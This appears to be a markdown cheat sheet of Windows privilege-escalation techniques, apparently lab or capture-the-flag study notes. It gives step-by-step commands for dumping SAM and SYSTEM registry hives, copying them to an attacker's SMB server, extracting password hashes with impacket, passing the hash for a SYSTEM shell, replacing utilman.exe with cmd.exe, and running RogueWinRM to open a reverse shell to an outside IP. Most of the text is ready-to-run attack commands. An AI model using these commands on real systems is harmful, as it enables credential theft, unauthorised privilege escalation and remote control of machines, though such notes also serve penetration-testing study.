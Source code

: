 # Pass The Hash Attack

1. Backup SAM & SYSTEM Hashes

```sh
reg save hklm\system C:\Users\Backup\system.hive
reg save hklm\sam C:\Users\Backup\sam.hive
```

2. Setup an SMB server on the attacking machine
- Create a directory name `share`
- Spin up an SMB server using impacket.

```sh
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username myusername -password mypassword public share
```

3. Copy files over SMB
```sh
copy C:\Users\Backup\sam.hive \\10.10.10.10\public\
copy C:\Users\Backup\system.hive \\10.10.10.10\public\
```

4. Retrieve password hashes:
```sh
cd share
pyhton3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

5. Pass the Hash
We will use the administrators hash to gain access to SYSTEM privileges.
```sh
python3.9 /opt/impacket/examples/psexec.py -hashes <HASH VALUE> admin@10.10.10.10
```

6. SeTakeOwnership
This privilege allows a user to take ownership of any object on system. We will  be attacking `utilman.exe` sinc eit is run with SYSTEM privileges.

The `takeown` command allows an administrator to recover access to a file by changing ownership to administrator.
```sh
takeown /f C:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant USERNAME:F
copy cmd.exe utilman.exe
```

7. Lock the device and perform the exploit.
Utilman.exe provides ease of access options during the lock screen. We will need to lock the device and run "Eas of Access" to get a cmd prompt with system privileges.

## SeImpersonate / SeAssignPrimaryToken
These privileges will allow a process to impersonate other users and act on their behalf. In Windows systems, yo uwill find that the `LOCAL SERVICE` and `NETWORK SERVICE ACCOUNTS` have these privileges.

1. Spawn a process so that users can connect and authenticate
2. Fore privileged users to connect and authenticate to the spawned process.

### Example using compromised web service
We've already gained inital access on a webserver and planted a shell. 

RogueWinRM exploit
- Starts the BITS service in windows
- Automatically creates a connection to port 5985 
- Uses SYSTEM privileges
- port 
- 5985 is used to expose powershell console over the network

If WinRM service isn't running on the victim server, an attacker can start a fake service on port 5985 and capture the authentication attempt.

`RogueWinRM.exe -p "exploit.exe" -a "-e cmd.exe 10.10.10.10 4442"`

`-p` - specifies the exe to be run by the exploit
`-a` - pass arguments
`-e cmd.exe 10.10.10.10` - Reverse shell using cmd


